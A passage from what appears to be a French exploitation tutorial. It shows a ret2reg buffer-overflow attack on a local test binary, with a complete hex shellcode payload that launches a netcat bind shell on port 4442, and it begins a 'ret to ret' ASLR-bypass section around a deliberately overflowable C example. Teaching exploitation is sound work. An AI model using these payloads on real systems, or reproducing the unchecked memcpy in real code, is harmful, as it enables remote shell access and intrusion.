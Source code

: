 ```
```

On voit qu'au moment du plantage, eax contient l'adresse de notre buffer. Si on trouve un gadget permettant de jumper sur eax, on pourra détourner le flux d'exécution avec un shellcode de notre cru.

```
	$ ropc -f ./a.out -g -F | grep "call\|jmp" | grep eax
	0x08048396  -> call eax ; leave ; ret ;
```

Voilà le gadget qu'il nous faut ! On a plus qu'à mettre un shellcode (ici un netcat) au début du buffer et de jumper dessus.

Notre payload ressemblera à :

```
	[ SHELLCODE | PADDING | call eax (saved EIP) ]
```

```
	$ ./a.out `perl -e 'print "\x31\xd2\x52\x68\x2f\x2f\x6e\x63\x68 \
                               \x2f\x62\x69\x6e\x68\x2f\x75\x73\x72 \
                               \x89\xe3\x52\x68\x2d\x6c\x76\x70\x89 \
                               \xe0\x52\x68\x34\x34\x34\x32\x89\xe1 \
                               \x52\x68\x2d\x76\x76\x65\x89\xe5\x52 \
                               \x68\x2f\x2f\x73\x68\x68\x2f\x62\x69 \
                               \x6e\x89\xe7\x52\x57\x55\x51\x50\x53 \
                               \x89\xe1\x31\xc0\xb0\x0b\xcd\x80" .
                               "A"x197 . "\x96\x83\x04\x08";'`
	Listening on any address 4442 (saris)
```

##0x01 Ret to Ret

Utilité : Cette technique peut être utile dans le cas où l'ASLR et/ou PIE est en place, mais où N^X n'est pas activé.
Principe : il s'agit de dépiler les valeurs situées sur la pile, jusqu'à ce qu'on ai une adresse pouvant être utile pour poursuivre l'exploitation (fonction, gadget, payload...).

Voici l'exemple utilisé pour cette technique :

```c
	#include <string.h>

	void foo(const char *b, size_t s) {
	    char buff[256];

	    memcpy(buff, b, s);
	}

	int main(int argc, char **argv) {

	    foo(argv[1], atoi(argv[2]));

	    return 0;
	}
```
